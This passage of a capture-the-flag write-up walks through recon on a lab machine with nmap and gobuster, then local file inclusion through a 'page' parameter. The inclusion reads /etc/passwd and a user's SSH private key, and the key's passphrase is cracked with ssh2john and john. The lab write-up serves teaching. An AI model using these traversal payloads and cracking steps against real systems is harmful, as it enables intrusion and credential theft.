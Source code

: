```
TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   82.89 ms  10.2.0.1
2   ... 3
4   229.14 ms 10.10.174.7

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 11 15:24:59 2020 -- 1 IP address (1 host up) scanned in 394.39 seconds
```

Next, I ran *gobuster*, below is the result.

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/upload (Status: 301)
```

Let's take a closer look at the ports found by *nmap* and at the `/upload/` directory found by *gobuster*, and attempt to get a shell inside.

## Penetration Testing
### Port 5555: Local File Inclusion
On port 5555, we have got what seems to be a typical blog. By navigating through the pages, we can find that the `page` variable is the one defining on which page we are. 

![Port 5555 Screenshot](https://i.imgur.com/VyJYSKn.png)

This could be a gateway to LFI if the code managing those pages are insecure enough. Let's try to leak `/etc/passwd`. This is the query we need to use: `http://MACHINE_IP:5555/?page=../../../etc/passwd`.

![Leaking /etc/passwd](https://i.imgur.com/9nazxDf.png)

This has worked! Let's now try to leak more sensitive files like SSH keys. Since this is "Gloria's blog", we can expect there is a user named gloria in the machine. Let's use the following query to leak her SSH private key: `http://MACHINE_IP:5555/?page=../../../home/gloria/.ssh/id_rsa`.

![Leaking SSH key](https://i.imgur.com/Dwn6L7O.png)

This has worked too! We can now save that to a file. By convention, you should name it `id_rsa`. Make sure the file's permissions are the right ones using chmod: `chmod 400 id_rsa`. If you don't do that step, you might get problems with SSH. If we try to connect to gloria through SSH (`ssh -i id_rsa gloria@MACHINE_IP`), we, unfortunately, need to enter a passphrase.

Let's try to crack that passphrase using *ssh2john* and *john* (AKA *JohnTheRipper*).

```bash
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john
```

